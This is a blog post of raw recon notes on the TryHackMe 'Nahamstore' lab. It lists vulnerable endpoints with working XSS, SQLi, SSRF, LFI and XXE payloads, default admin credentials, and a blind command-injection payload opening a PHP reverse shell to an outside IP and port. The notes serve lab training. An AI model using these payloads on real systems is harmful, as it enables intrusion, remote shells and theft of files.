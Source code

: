 ```yaml
---
layout: post
title: "Nahamstore Recon Notes"
date: 2022-08-16 00:00:0
permalink: nahamstore-recon-notes/
tags: bug bounty tryhackme
---
```

_Not a walkthrough or writeup. Just my raw recon notes and vulnerabilities_
<br><br>
### Root domains
- nahamstore.thm

### Web Technologies
- nginx, ubuntu, jqurey

---
## nahamstore.thm
__Ports:__ 22,80,8000

### www.nahamstore.thm, shop.nahamstore.thm -> nahamstore.thm
-   `/<img src=/ onerror=alert()>` [rXSS] [Page Not Found]
-   `/?q` [rXSS]
-   `/?r` [open redirect]
<br><br>
-	`/basket` [POST] [address_id] [IDOR, PII]
<br><br>
-	`/register` [POST] [register_email, register_password]
-	`/register?redirect_url` [open redirect]
<br><br>
-	`/returns` [POST] [return_info] [sXSS]
-   `/returns` [POST] [order_number] [SQLi]
<br><br>
-   `/uploads` [301 -> 127.0.0.1:80]
<br><br>
- 	`/login`
-	`/logout`
<br><br>
-	`/search?q='-alert("test")-'` [rXSS] [js param `search`]
-   `/?q=%22+onfocus%3Dalert()+autofocus+` [rXSS][searchbox]
<br><br>
-   `/stockcheck` [POST] [SSRF] 
`server=stock.nahamstore.thm@internal-api.nahamstore.thm?a=&product_id=1`
<br><br>
-	`/staff` [File Upload - "xlxs only"] [XXE via xlxs]
<br><br>
-   `/account/orders`
-   `/account/settings` [Email,password change, disable acct]
-   `/account/addressbook` [Address change]
-   `/account/addressbook` [POST] [`new_address_title,new_address_fname,new_address_lname,new_address_line1,new_address_line2,road,new_address_line3,new_address_state,new_address_zipcode`]
-   `/account/orders/3`
<br><br>
-   `/product?id=2&name=</title>` [rXSS] 
-   `/product?id=2&discount=" onfocus="alert()" autofocus "` [rXSS]
-   `/product` [Discount, Add to basket, Check Stock]
-   `/product?id=` [SQLi] [rXSS]
-   `/product` [POST] [discount] [rXSS]
-   `/product/picture/?file=....//....//....//....//....//lfi/flag.txt` [LFI] 
<br><br>
-   `/pdf-generator` [POST] [IDOR] 
`what=order&id=3%26user_id=3`
- `/pdf-generator` [POST] [Blind RCE]
`what=order&id=4%3b$(php+-r+'$sock%3dfsockopen("10.11.80.81",1337)%3bshell_exec("sh+<%263+>%263+2>%263")%3b')`

### internal-api.nahamstore.thm
-   `/orders` [Information Disclosuer, IDOR]
[`"id":"4dbc51716426d49f524e10d4437a5f5a","5ae19241b4b55a360e677fdd9084c21c","70ac2193c8049fcea7101884fd4ef58e"`]

### nahamstore.thm:8000
-   `/admin` [admin:admin] [Marketing Manager Dashboard]
-   `/admin/8d1952ba2b3c6dcd76236f090ab8642c` [RCE] [PHP rev shell]

### marketing.nahamstore.thm
-   `/?error=` [XSS]

### nahamstore-2020-dev.nahamstore.thm [API]
-   /api/customers/?customer_id=2 [IDOR, Information Disclosure]

### stock.nahamstore.thm [API]
-   `/product`
-   `/product/1`
-   `/product/1?xml` [XML output]
-   `/product/1?xml` [XXE] [POST]
<br>
```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <X-Token>
        &xxe;
    </X-Token>
</data>
```